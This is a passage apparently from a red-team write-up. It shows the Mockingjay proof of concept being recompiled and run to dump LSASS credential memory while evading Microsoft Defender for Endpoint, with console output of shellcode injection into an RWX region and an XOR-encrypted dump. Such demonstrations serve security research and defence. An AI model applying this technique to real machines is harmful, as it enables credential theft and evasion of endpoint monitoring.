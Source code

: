 Now since, `C:\\Program Files (x86)\\Microsoft SDKs\\NuGetPackages\\Microsoft.NETCore.Runtime.CoreCLR-x64\\1.0.0\\runtimes\\win7-x64\\lib\\dotnet\\mscorlib.ni.dll` isn't available on MDE by default we create a zip of `dotnet\\mscorlib.ni.dll`  and transfer it and unpack it on MDE.

```
C:\Users\administrator1\Desktop>dir
 Volume in drive C is Windows
 Volume Serial Number is 3A18-00BD

 Directory of C:\Users\administrator1\Desktop

10/11/2023  01:42 PM    <DIR>          .
10/11/2023  10:53 AM    <DIR>          ..
10/11/2023  11:19 AM    <DIR>          dotnet
10/11/2023  11:22 AM            16,384 mockingjay.exe
10/11/2023  09:18 AM           143,872 rwxfinder.exe
10/11/2023  11:14 AM        25,355,496 VC_redist.x64.exe
               3 File(s)     25,515,752 bytes
               3 Dir(s)  108,778,319,872 bytes free
```

We also alter the source to the new location of our copied DLL:

```
 //HMODULE hModule = LoadLibraryW(L"C:\\Users\\administrator1\\Desktop\\dotnet\\dotnet\\mscorlib.ni.dll");
```

Recompile the mockingjay POC and copy it over to the MDE testmachine and execute it to successfully perform an LSASS dump bypassing MDE. 

```
C:\Users\administrator1\Desktop>.\mockingjay.exe
[+] Module loaded...[+] Offset to RWX memory region: 0xe019b000
[+] Shellcode Written to RWX Memory Region.
[+] Searching for LSASS PID
[+] LSASS PID: 844
[+] Starting dump to memory buffer
[+] Copied 49173962 bytes to memory buffer
[+] Successfully dumped LSASS to memory!
[+] Xor encrypting the memory buffer containing the dump data
[+] Xor key: jisjidpa123
[+] Enrypted dump data written to "LSASS_ENCRYPTED.DMP" file

C:\Users\administrator1\Desktop>dir
 Volume in drive C is Windows
 Volume Serial Number is 3A18-00BD

 Directory of C:\Users\administrator1\Desktop

10/11/2023  11:25 AM    <DIR>          .
10/11/2023  10:53 AM    <DIR>          ..
10/11/2023  11:19 AM    <DIR>          dotnet
10/11/2023  11:24 AM        49,173,962 LSASS_ENCRYPTED.DMP
10/11/2023  11:22 AM            16,384 mockingjay.exe
10/11/2023  09:18 AM           143,872 rwxfinder.exe
10/11/2023  11:14 AM        25,355,496 VC_redist.x64.exe
               4 File(s)     74,689,714 bytes
               3 Dir(s)  110,654,418,944 bytes free
```


[+]: Shellcode located at c7160